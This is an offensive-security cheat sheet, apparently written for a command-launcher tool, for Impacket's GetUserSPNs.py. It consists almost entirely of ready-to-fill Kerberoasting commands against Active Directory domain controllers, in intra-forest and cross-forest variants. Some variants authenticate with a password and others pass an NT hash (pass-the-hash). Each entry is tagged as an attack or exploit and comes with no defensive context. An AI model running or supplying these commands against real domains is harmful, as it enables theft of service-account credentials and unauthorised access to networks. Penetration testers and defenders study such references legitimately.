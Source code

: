 # GetUSERSPN (imp)

% impacket-kerberos, windows, kerberos, 88

## kerberoasting - intra forest (user account)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain_fqdn>/<user>:<password>'
```


## kerberoasting (pth)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> -hashes :<nt_hash> '<domain_fqdn>/<user>'
```

## kerberoasting - cross forest (user account)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -target-domain <dst_domain_fqdn> '<domain_fqdn>/<user>:<password>'
```


## kerberoasting - cross forest (pth)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -target-domain <dst_domain_fqdn> -hashes :<nt_hash> '<domain_fqdn>/<user>'
```
